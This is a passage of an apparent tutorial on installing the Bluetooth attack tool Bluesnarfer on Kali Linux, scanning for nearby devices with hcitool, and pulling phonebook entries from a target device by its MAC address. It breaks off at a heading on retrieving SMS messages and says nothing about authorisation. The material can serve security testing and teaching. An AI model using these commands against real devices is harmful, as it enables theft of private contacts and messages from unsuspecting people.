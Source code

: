 #### Step 1: Update Your System

Ensure your Kali Linux system is up-to-date:

```bash
sudo apt update && sudo apt upgrade -y
```

#### Step 2: Install Bluesnarfer

Install Bluesnarfer using the `apt` package manager:

```bash
sudo apt install bluesnarfer -y
```

#### Step 3: Verify Installation

After installation, check that Bluesnarfer is properly installed by running:

```bash
bluesnarfer -h
```

This command displays the help menu, confirming that the tool is ready to use.

---

### How to Use Bluesnarfer

Bluesnarfer’s usage revolves around targeting a Bluetooth-enabled device and executing specific commands to retrieve data. Below is a step-by-step guide to using the tool:

#### 1. **Identify a Target Device**

Before using Bluesnarfer, you need the **MAC address** of the target device. Tools like **hcitool** can help you scan for nearby devices:

```bash
sudo hcitool scan
```

This command lists discoverable devices along with their MAC addresses.

#### 2. **Run Bluesnarfer**

Once you have the MAC address of the target device, you can execute Bluesnarfer commands. For example, to retrieve the phonebook from a target device with the MAC address `XX:XX:XX:XX:XX:XX`, use:

```bash
sudo bluesnarfer -b XX:XX:XX:XX:XX:XX -r 1-100
```

Here’s a breakdown of the options:

- `-b`: Specifies the target MAC address.
- `-r 1-100`: Specifies the range of phonebook entries to retrieve.

#### 3. **Retrieve SMS Messages**

